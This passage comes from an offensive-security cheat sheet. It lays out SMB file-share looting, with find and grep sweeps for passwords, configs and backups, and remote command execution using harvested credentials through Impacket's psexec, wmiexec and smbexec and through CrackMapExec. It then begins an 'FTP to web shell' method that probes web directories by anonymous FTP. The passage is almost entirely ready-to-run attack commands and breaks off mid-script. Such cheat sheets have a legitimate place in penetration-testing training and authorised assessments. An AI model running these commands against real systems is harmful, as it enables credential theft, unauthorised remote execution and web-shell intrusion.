 **Step 2: File System Exploration**
```bash
# Comprehensive file discovery
find /mnt/target_share -type f -name "*.txt" 2>/dev/null
find /mnt/target_share -type f -name "*.conf" 2>/dev/null
find /mnt/target_share -type f -name "*.config" 2>/dev/null
find /mnt/target_share -type f -name "*password*" 2>/dev/null
find /mnt/target_share -type f -name "*backup*" 2>/dev/null

# Search for interesting content
grep -r "password" /mnt/target_share/ 2>/dev/null
grep -r "username" /mnt/target_share/ 2>/dev/null
grep -r "admin" /mnt/target_share/ 2>/dev/null
```

### Method 2: SMB Command Execution

**Step 1: PSExec-Style Execution**
```bash
# Impacket PSExec
python3 /usr/share/doc/python3-impacket/examples/psexec.py username:password@$IP
python3 /usr/share/doc/python3-impacket/examples/psexec.py domain/username:password@$IP

# Alternative execution methods
python3 /usr/share/doc/python3-impacket/examples/wmiexec.py username:password@$IP
python3 /usr/share/doc/python3-impacket/examples/smbexec.py username:password@$IP
```

**Step 2: CrackMapExec Command Execution**
```bash
# Command execution via CrackMapExec
crackmapexec smb $IP -u username -p password -x "whoami"
crackmapexec smb $IP -u username -p password -x "net user"
crackmapexec smb $IP -u username -p password -x "systeminfo"

# PowerShell execution
crackmapexec smb $IP -u username -p password -X "Get-Process"
```

## FTP to Shell Techniques

### Method 1: FTP to Web Shell

**Step 1: Web Directory Discovery**
```bash
# Common web directories in FTP
webpaths=(
    "/var/www/html"
    "/var/www"
    "/usr/local/www/apache22/data"
    "/htdocs"
    "/www"
    "/inetpub/wwwroot"
    "/xampp/htdocs"
)

# Test each path
for path in "${webpaths[@]}"; do
    echo "Testing path: $path"
    ftp $IP << EOF
anonymous

cd $path
pwd
ls -la
```